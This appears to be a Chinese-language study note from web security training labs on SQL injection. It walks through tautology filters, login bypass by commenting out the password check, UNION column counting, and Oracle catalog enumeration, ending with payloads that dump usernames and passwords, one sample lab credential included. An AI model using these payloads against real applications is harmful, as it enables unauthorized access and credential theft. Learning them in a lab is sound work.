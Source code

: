 ## 导入
### 检索隐藏数据

正常逻辑：

请求：
https://insecure-website.com/products?category=Gifts

数据库语句：
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

注入攻击：
https://insecure-website.com/products?category=Gifts' and 1=1--

数据库语句：
SELECT * FROM products WHERE category = 'Gifts' and 1=1--'AND released = 1

由此数据库语句后面的判断语句就是永真了

### 身份验证绕过破坏逻辑

登录处将用户名处改为xxx'--
username=administrator%27--&password=1

数据库语句：
SELECT * FROM users WHERE username = 'administrator'--' AND password = '1'

将后面的判断注释掉

## union联合查询

一
' order by 1--
' order by 2--
' order by 3--

二
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
如果空值的数量与列数不匹配，数据库将返回错误，例如：
>All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

?category=Gifts' UNION SELECT NULL,NULL,NULL--

字符分割：
当联合查询时，查询可能仅返回单个列
例如
Gifts'+union+select+'123','abc'--
这里只有abc的位置能回显

这里可以用字符分割符去分割查询结果：
例如Oracle用的`||`符号
Gifts'+union+select+NULL,username||'~'||password+from+users--
返回结果：wiener~ro1g3dp7vf6ryhptj5pp

### oracle数据库查询

与mysql不同的是，oracle在查询时必须要有from子句，在oracle中的数据库查询有以下表达

表名：
SELECT owner, table_name FROM ALL_TABLES;

列名
SELECT owner, table_name, column_name, data_type, data_length FROM ALL_TAB_COLUMNS;

Gifts'+union+select+table_name,null+from+ALL_TABLES--
Gifts'+union+select+column_name,null+from+ALL_TAB_COLUMNS+where+table_name='USERS_PTHGLT'--
Gifts'+union+select+USERNAME_VUYDKD||'~'||PASSWORD_DOEROP,null+from+USERS_PTHGLT--